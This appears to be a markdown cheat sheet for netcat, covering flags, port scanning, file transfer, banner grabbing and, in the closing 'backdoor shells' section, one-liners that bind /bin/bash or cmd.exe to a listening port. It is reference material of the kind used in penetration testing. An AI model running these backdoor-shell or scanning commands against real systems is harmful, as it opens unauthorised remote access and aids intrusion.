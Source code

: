 ### Using netcat / nc

#### flags
```
Netcat Command Flags

nc -4 # use IPv4 only

nc -6 # use IPv6

nc -u # use UDP instead of TCP

nc -k -l # continue listening after disconnection

nc -n # skip DNS lookups

nc -v # provide verbose output
```
#### port scanning
```
nc -zv $IP $PORT # scan a single port

nc -zv $IP $PORT $PORT # scan a set of individual ports

nc -zv $IP $PORT-$PORT # scan a range of ports
```

#### file transfer

> from man page
Start by using nc to listen on a specific port, with output captured into
     a file:

           $ nc -l 1234 > filename.out

     Using a second machine, connect to the listening nc process, feeding it
     the file which is to be transferred:

           $ nc host.example.com 1234 < filename.in

     After the file has been transferred, the connection will close automati-
     cally.

> simple
```
nc -l $PORT > file_name.out
nc -w 10  $IP $PORT < file_name.in


```
> with flags
```
nc -l -p $PORT > out.file
nc -w 3 $IP $PORT < out.file
```

> variations
```
# compressed
tar cfp - /some/dir | compress -c | nc -w 3 $IP $PORT
nc -l -p $PORT | uncompress -c | tar xvfp -

```

#### banners
```
echo “” | nc -zv -wl [$IP] [$PORT_RANGE] # obtain the TCP banners for a range of ports
```

#### backdoor shells
```
nc -l -p [$PORT] -e /bin/bash # Linux

nc -l -p [$PORT] -e cmd.exe # Windows
```
